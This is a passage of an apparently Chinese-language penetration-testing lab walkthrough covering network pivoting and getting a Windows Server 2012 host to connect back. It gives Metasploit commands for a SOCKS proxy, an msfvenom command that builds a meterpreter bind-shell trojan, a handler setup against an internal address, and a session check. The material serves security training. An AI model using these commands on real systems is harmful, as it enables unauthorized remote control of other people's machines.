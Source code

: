 这里的节点要和上面的节点的端口号不一样的，不能冲突了。

```
use auxiliary/server/socks_proxy
set srvhost 0.0.0.0
set srvport 2233
run
```

![image-20230518162004291](https://s2.loli.net/2023/05/18/L7dpIcHKYbuGyWN.png)

## Windows 2012上线

这里和上面`Windows 2003`操作流程是一样的，没太多可说的。

### 生成木马

```
msfvenom -p windows/meterpreter/bind_tcp LHOST=0.0.0.0 LPORT=3333 -f exe > 2012.exe
```

![image-20230518162415772](https://s2.loli.net/2023/05/18/QJI7ULs5ZfbrzW2.png)

### 设置监听

```
use exploit/multi/handler
set payload windows/meterpreter/bind_tcp
set rhost 192.168.30.20    ##目标地址
set lport 3333
run
```

![image-20230518163206872](https://s2.loli.net/2023/05/18/uJ89YvBeiWKPXmA.png)

### 查看后台会话

```
sessions
```

![image-20230518163238994](https://s2.loli.net/2023/05/18/sUeEgV5PkB6813x.png)

# 总结

各位看这可能有点恍惚，实际环境中真的有那么顺吗？其实不然，实际的环境中可能更复杂，这里只是将这个复杂的内容，分为单方面来说，所以看似容易，当所有单方面说完，综合起来肯定就比较复杂了。
